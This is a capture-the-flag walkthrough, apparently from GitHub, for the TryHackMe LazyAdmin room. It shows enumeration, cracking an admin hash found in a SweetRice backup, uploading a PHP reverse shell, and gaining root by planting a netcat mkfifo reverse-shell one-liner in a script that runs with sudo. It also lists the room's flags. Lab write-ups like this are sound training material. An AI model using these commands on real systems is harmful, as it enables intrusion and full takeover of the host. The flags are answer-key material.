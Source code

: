 # LazyAdmin

Easy linux machine to practice your skills

[LazyAdmin](https://tryhackme.com/room/lazyadmin)

## 💢 We will cover  the topics

- Network Enumeration
- Web Enumeration
- Backup Poking
- Brute Forcing (Hash)
- Misconfigured Binaries



---------------------------------

## Task 1 Lazy Admin

Have some fun! There might be multiple ways to get user access.

`Note: It might take 2-3 minutes for the machine to boot`

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ sudo nmap -A -sS -sC -sV -O 10.10.230.157
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 18:57 CEST
Nmap scan report for 10.10.230.157
Host is up (0.061s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/14%OT=22%CT=1%CU=33945%PV=Y%DS=2%DC=T%G=Y%TM=5F872E
OS:0B%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=B)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   72.64 ms 10.8.0.1
2   72.70 ms 10.10.230.157

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.74 seconds
```

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ sudo /opt/dirsearch/dirsearch.py -u 10.10.230.157 -w /usr/share/dirb/wordlists/common.txt -e html,php

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-14_18-58-34.log

Target: 10.10.230.157

Output File: /opt/dirsearch/reports/10.10.230.157/_20-10-14_18-58-34.txt

[18:58:34] Starting:
[18:58:39] 301 -  316B  - /content  ->  http://10.10.230.157/content/
[18:58:41] 200 -   11KB - /index.html
[18:58:45] 403 -  278B  - /server-status

Task Completed
```

[http://10.10.230.157/content/](http://10.10.230.157/content/)

![](./2020-10-14_18-59.png)

```
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ sudo /opt/dirsearch/dirsearch.py -u 10.10.230.157/content -w /usr/share/dirb/wordlists/common.txt -e html,php
[sudo] password for kali:

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-14_19-01-38.log

Target: 10.10.230.157/content

Output File: /opt/dirsearch/reports/10.10.230.157/content_20-10-14_19-01-38.txt

[19:01:38] Starting:
[19:01:39] 301 -  324B  - /content/_themes  ->  http://10.10.230.157/content/_themes/
[19:01:42] 301 -  319B  - /content/as  ->  http://10.10.230.157/content/as/
[19:01:42] 301 -  327B  - /content/attachment  ->  http://10.10.230.157/content/attachment/
[19:01:47] 301 -  323B  - /content/images  ->  http://10.10.230.157/content/images/
[19:01:48] 301 -  320B  - /content/inc  ->  http://10.10.230.157/content/inc/
[19:01:48] 200 -    2KB - /content/index.php
[19:01:48] 301 -  319B  - /content/js  ->  http://10.10.230.157/content/js/

Task Completed
```

LOGIN: [http://10.10.230.157/content/as/](http://10.10.230.157/content/as/)

[http://10.10.230.157/content/inc/](http://10.10.230.157/content/inc/)

[http://10.10.230.157/content/inc/mysql_backup/](http://10.10.230.157/content/inc/mysql_backup/)

```sql
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

`42f749ade7f9e195bf475f37a44cafcb md5 Password123`

`manager:Password123`

[http://10.10.230.157/content/as/?type=media_center](http://10.10.230.157/content/as/?type=media_center)

`http://10.10.230.157/content/attachment/php-reverse-shell.phtml`

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.230.157] 55546
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 20:09:00 up 13 min,  0 users,  load average: 0.01, 0.08, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9002 >/tmp/f' >/etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

```
kali@kali:~/CTFs/tryhackme/LazyAdmin$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.230.157] 58634
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

1. What is the user flag?

`THM{63e5bce9271952aad1113b6f1ac28a07}`

2. What is the root flag?

`THM{6637f41d0177b6f37cb20d775124699f}`
